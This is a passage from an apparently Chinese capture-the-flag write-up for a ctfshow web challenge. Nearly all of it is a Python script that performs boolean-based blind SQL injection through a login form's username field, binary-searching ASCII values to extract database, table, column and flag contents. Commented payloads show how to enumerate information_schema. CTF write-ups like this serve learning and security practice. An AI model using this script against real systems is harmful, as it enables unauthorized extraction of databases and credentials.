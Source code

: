 会返回用户名不存在

那么大概就是if语句判断了，最终脚本如下

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/6/1 21:57
# blog: www.wlhhlc.top
import requests
url = "http://85a1ea9e-0f13-4e36-8891-bb635e166d58.challenge.ctf.show/api/"
data = {'username':'',
        'password':123456}
flag = ''
for i in range(1,46):
    start = 32
    end = 127
    while start < end:
        mid = (start + end) >> 1
        #payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        #取字段名：payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        payload = "select f1ag from ctfshow_fl0g"
        #payload="select database()"
        data['username'] = f"admin' and if(ascii(substr(({payload}), {i} , 1)) > {mid}, 1, 2)=1#"
        res = requests.post(url=url, data=data)
        if "密码错误" in res.json()['msg']:
            start = mid +1
        else:
            end = mid
    flag = flag + chr(start)
    print(flag)


```

### 191 ascii
